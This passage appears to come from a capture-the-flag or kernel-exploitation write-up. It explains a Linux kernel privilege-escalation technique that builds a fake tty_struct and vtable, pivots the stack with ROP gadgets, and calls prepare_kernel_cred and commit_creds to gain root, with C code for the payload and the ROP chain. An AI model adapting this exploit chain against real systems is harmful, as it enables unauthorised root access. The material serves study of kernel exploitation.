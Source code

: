 ```payload.c
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = ...

    assert((ulong)rop - (ulong)key_payload < 516);
```

First, we overwrite `ops` to make it point to `tty_struct + 0x50`. We spray the addr of `leave` gadget as a fake vtable around there. Then, `leave` pops addr of `tty_struct` into `RSP` because `RBP` has the value of `tty_struct` itself.
After that, `RET` would returns to the addr in `tty_struct + 8`. Here is `tty_struct.dev` pointer, and this pointer is allowed to be broken. So you can just put the addr `tty_struct + 0x50 + 0x120`. Finally, you can construct your ROP chain at `tty_struct + 0x50 + 0x120` as you like.
This structure is just for kROP. Miraculously, this kROP can work without corrupting magic number and pointers which must be kept clean (such as `+0x10: driver`). Great structure, really.

[EDIT] If you want to know the details of this kROP technique, you can reffer to [my GitHub](https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md), where I describe it more deeply.

[EDIT] I realized there is useful gadget in kernel: `0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;`. It is equivalent to `mov rsp, rdx`. As stated above, `RDX` can be fully controlled by 3rd argument of `ioctl()`. So it might be the case that you don't have to do this *2 phased kROP*. But I still love this kROP, it is wonderful :)

ROP would look like below:

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 0;
  *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff810eba40); // commit_creds

  *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                             // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
  *rop++ = 0;
  *rop++ = 0;
  *rop++ = (ulong)NIRUGIRI;
  *rop++ = user_cs;
  *rop++ = user_rflags;
  *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
  *rop++ = user_ss;
```

